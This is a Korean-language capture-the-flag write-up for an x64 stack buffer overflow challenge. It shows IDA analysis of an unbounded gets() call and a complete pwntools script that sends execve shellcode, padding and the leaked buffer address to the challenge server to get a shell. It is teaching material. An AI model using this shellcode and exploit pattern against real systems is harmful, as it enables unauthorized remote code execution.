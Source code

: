 ## 배경지식     
이 전 문제인 x64 buffer Overflow 문제를 풀어오거나 아님 write-up을 보고 오면 이해가 좀 더 쉬울것이다.    

-------------------------------------- 
## 문제풀이    
일단 문제를 먼저 실행해보자.    
![run1](run1.PNG)    
buf의 주소를 주는데, 주소가 바뀐다.   
IDA로 파일을 뜯어보면,  
![IDA3](IDA3.png)    
rbp-6D30 위치에 문자열 변수가 있고,  gets 함수가 있는 걸로 봐선 BOF를 일으켜 쉘코드를 넣으면 되는 방식인듯하다.    
![IDA1](IDA1.PNG)     
문자열 v4의 주소를 출력하고 gets(&v4), 크기제한이 없으므로 BOF를 ret까지 일으키고 쉘코드를 넣으면 될 것 같다.   
이때 약간 헷갈릴 수 있는 것이 이 파일은 64비트 기반이기 때문에 sfp, ret등 주소의 길이가 8byte라는 것만 잊지 않으면 된다.   
v6의 위치가 rbp-6D30이므로 6D30-쉘코드 길이 + sfp만큼 BOF를 일으키면 될 것이다!

payload를 짜보면 payload = Shell(31) + Dummy(27,929) + bufAddr(8) 

## 코드   
```python   
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3005)
shell = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
lange = 0x6D30
p.recvuntil("buf: ")
addr = int(p.recv(14),16)
payload = shell
payload+='B'*(lange - 31+8)
payload+=p64(addr)
p.sendline(payload)
p.interactive()
```   
